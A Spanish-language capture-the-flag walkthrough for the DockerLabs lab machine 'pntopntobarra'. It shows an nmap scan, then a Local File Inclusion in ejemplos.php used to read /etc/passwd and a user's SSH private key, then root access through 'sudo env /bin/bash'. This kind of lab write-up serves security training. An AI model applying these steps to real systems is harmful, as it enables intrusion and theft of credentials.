


# pntopntobarra

Maquina pntopntobarra de [DockerLabs](https://dockerlabs.es)



Autor: yo ([maciiii\_\_\_](https://instagram.com/macim0_))

Dificultad: Fácil

## INTRUSION

Comenzamos haciendo un escaneo de nmap a la ip 172.17.0.2.

```css
sudo nmap -p- 172.17.0.2 -sS --min-rate 5000 -n --open -oN escaneo.txt
```

```ruby
# Nmap 7.94SVN scan initiated Sun Aug 18 23:05:22 2024 as: nmap -p- -sS --min-rate 5000 -n --open -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up (0.000014s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

# Nmap done at Sun Aug 18 23:05:24 2024 -- 1 IP address (1 host up) scanned in 1.76 seconds

```

Vemos el puerto 22 y 80 abierto, nada interesante por lo que iremos directo al puerto 80 desde el navegador.

### PUERTO 80:



Parece un tipo de advertencia y nos nombra un "LeFvIrus", si vemos las letras en mayuscula seria "LFI", por lo que podria tratar de un `Local File Inclusion`, sabiendo eso podemos entrar a donde dice "Ejemplos de computadoras infectadas" y nos redirige a un ".php" que dice `Error al cargar el archivo.` pero en la barra de busqueda pone `http://172.17.0.2/ejemplos.php?images=./ejemplo1.png` por lo que cambiamos el "./ejemplo1.png" por `/etc/passwd`. Como hay un usuario llamado "nico" podemos ver si se puede leer su clave privada de ssh, simplemente ponemos "/home/nico/.ssh/id\_rsa" y listo. Al enviarlo podemos ver la clave privada de el usuario nico. Nos copiamos la clave a nuestra maquina local a un archivo llamado "id\_rsa", le damos permisos con `chmod 600 id_rsa` y luego entramos sin contraseña usando `ssh -i id_rsa nico@172.17.0.2`.

## ESCALADA DE PRIVILEGIOS

Una vez dentro seremos el usuario nico, al ejecutar `sudo -l` se ve que podemos ejecutar como root el binario "env", por lo que simplemente ponemos:

```css
sudo env /bin/bash
```

y listo, somos root:


Gracias.....
